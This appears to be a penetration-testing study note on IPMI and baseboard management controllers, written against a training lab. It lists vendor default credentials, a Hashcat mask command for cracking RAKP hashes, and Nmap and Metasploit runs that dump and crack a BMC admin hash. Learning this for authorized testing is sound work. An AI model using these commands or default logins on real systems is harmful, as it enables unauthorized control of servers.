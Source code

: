 # IPMI
- is a set of standardized specifications for hardware-based host management systems used for system management and monitoring. 
- https://www.thomas-krenn.com/en/wiki/IPMI_Basics
- IPMI is typically used in three ways:
- - Before the OS has booted to modify BIOS settings
- - When the host is fully powered down
- - Access to a host after a system failure
- port 623 but can be differ

#### Components
```
| Component/Interface                            | Description                                                                 |
|------------------------------------------------|-----------------------------------------------------------------------------|
| Baseboard Management Controller (BMC)          | A micro-controller and essential component of an IPMI.                      |
| Intelligent Chassis Management Bus (ICMB)      | An interface that permits communication from one chassis to another.        |
| Intelligent Platform Management Bus (IPMB)     | Extends the BMC functionality to additional components.                     |
| IPMI Memory                                    | Stores items such as the system event log, repository store data, and more. |
| Communications Interfaces                      | Includes local system interfaces, serial and LAN interfaces, ICMB, and PCI Management Bus. |
```

## Configurtaion
### Dangerous Settings
If default credentials fail for a BMC access, a vulnerability in the IPMI 2.0 RAKP protocol can be exploited. During authentication, the server sends a salted SHA1 or MD5 hash of 
the user's password to the client. This hash can be captured and cracked offline for any valid BMC user using Hashcat mode 7300. 
For HP iLO with default passwords, the following Hashcat mask attack can be used: hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u, 
targeting all eight-character combinations of uppercase letters and numbers.

### Standard Username password
| Product            | Username      | Password                                                      |
|--------------------|---------------|---------------------------------------------------------------|
| Dell iDRAC         | root          | calvin                                                        |
| HP iLO             | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI    | ADMIN         | ADMIN                                                         |

## Footprinting
### Nmap
```shell
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit
```shell
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Metasploit Dumping Hashes
```shell
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```